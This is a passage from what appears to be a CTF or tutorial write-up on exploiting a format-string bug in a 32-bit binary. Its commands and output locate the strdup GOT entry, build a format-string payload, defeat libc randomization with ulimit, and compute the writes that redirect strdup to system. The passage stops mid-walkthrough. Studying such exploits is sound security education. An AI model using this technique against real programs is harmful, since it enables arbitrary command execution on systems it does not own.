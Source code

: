 Anyways, lets find the `strdup` GOT entry:

~~~
:::console
$ objdump -d a.out
... <snip> ...
08048330 <strdup@plt>:
 8048330:       ff 25 04 a0 04 08       jmp    *0x804a004
 8048336:       68 08 00 00 00          push   $0x8
 804833b:       e9 d0 ff ff ff          jmp    8048310 <_init+0x3c>
... <snip> ...
~~~

Now we know where to write. We want to write the address of `system` to the `strdup` got entry, `0x804a004`. 
For now, we plug in our address into the payload and make sure everything still works out:

~~~
:::console
$ env -i ./a.out "$(python -c 'import sys; sys.stdout.write("sh;#\x04\xa0\x04\x08\x06\xa0\x04\x08%00000x%99$hp%00000x%100$hp")')"
sh;#00x804a00480484490x804a006
~~~

The next step is to figure out where to write. First, since it is a 32 bit binary, we can disable libc randomization. 
We disable libc randomization via:

~~~
:::console
$ ulimit -s unlimited
~~~

Now the address of `system` is at a deterministic location in memory. 
We can just open up the program in `gdb` and print the address of `system`:

~~~
:::console
$ gdb -q a.out
Reading symbols from /home/ppp/a.out...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x8048417
(gdb) r
Starting program: /home/ppp/a.out 

Breakpoint 1, 0x08048417 in main ()
(gdb) p system
$1 = {<text variable, no debug info>} 0x555c2250 <system>
~~~

All right, now we know that we need to write `0x555c2250` (the address of system)
to the address `0x804a004` (the got entry of `strdup`). We are doing this in two parts. 
First, we write `0x2250` to the two bytes at `0x804a004` then we write `0x555c` to
the two bytes at `0x804a006`. We can figure out how many bytes to write in python:

~~~
:::console
$ python
>>> 0x2250 - 12 # We've already written 12 bytes ("sh;#AAAABBBB").
8772
>>> 0x555c - 0x2250 # We've already written 0x2250 bytes.
13068
~~~
